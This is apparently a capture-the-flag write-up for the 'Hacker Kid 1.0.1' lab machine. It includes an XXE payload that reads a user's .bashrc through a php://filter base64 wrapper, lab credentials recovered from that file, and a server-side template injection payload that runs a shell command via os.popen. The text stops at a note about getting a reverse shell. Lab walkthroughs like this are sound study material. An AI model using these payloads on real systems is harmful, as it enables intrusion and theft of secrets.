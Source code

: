 ![XML-injection.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/XML-injection.png)

- We know there is a user name → saket
- We can see the .bashrc file for saket

> **Payload**
> 

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/home/saket/.bashrc">]>
```

![password-saket.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/password-saket.png)

- The bashrc file is base64 encoded
- we can use cyberchef to decode this base64

![bashrc-encode.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/bashrc-encode.png)

```
password = Saket!#$%@!!
username = admin
```

---

### Login As a saket

- We can use this above password to login as saket  → on port 9999

```
username = saket
password = Saket!#$%@!!
```

![login-success.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/70649414-413d-461a-88f9-d7bf00602c8a.png)

---

### Injection Attack

- There is a hint on the page.
- The name parameter is vulnerable to injection attack
- The name parameter is vulnerable to “SSTI”, “XSS Injection”, “HTML Injection”

```bash
{% import os %}{{ os.popen("whoami").read() }}
```

- Success in Server Side Template Injection

![SSTI.png](Hacker%20Kid%201%200%201%2024403ee046f580d8bd7dd4735d2811c0/SSTI.png)

> **NOTE: Make sure the payload is encoded otherwise it wont work.**
> 
- get a revers shell
